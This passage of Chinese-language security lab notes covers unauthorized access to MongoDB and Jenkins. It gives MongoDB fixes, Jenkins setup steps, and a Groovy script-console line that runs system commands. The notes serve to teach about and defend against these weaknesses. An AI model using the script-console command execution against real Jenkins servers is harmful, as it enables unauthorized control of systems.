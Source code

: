 1、NoSQLBooster连接

![image-20200704122547655](/images/Unauthorized/image-20200704122547655.png)

##### 漏洞修复

1、MongoDB添加认证：MongoDB启动时添加--auth参数、为MongoDB添加用户

2、启动时加入参数--bind_ip 127.0.0.1 或在/etc/mongodb.conf文件中添加以下内容：bind_ip = 127.0.0.1



#### Jenkins 未授权访问

##### 漏洞描述

默认情况下 Jenkins面板中用户可以选择执行脚本界面来操作一些系统层命令，攻击者可通过未授权访问漏洞或者暴力破解用户密码等进入后台管理服务，通过脚本执行界面从而获取服务器权限。

##### 漏洞验证

0、环境搭建

```shell
//安装并启动Jenkins服务
# rpm -ivh jenkins-2.7.3-1.1.noarch.rpm
//修改默认端口
# vim /etc/sysconfig/jenkins
JENKINS_PORT="8089"
//jenkins服务启动
# service jenkins start
```

![image-20200706091405075](/images/Unauthorized/image-20200706091405075.png)

![image-20200706091522419](/images/Unauthorized/image-20200706091522419.png)

1、浏览器访问

```shell
http://172.16.144.142:8089/login?from=%2F
//浏览器访问后输入文件内的密码
# vim /var/lib/jenkins/secrets/initialAdminPassword
```

2、未授权访问

```
//系统
http://172.16.144.142:8089/
```

![image-20200706094611260](/images/Unauthorized/image-20200706094611260.png)

3、执行命令

```shell
println "whoami".execute().text
```
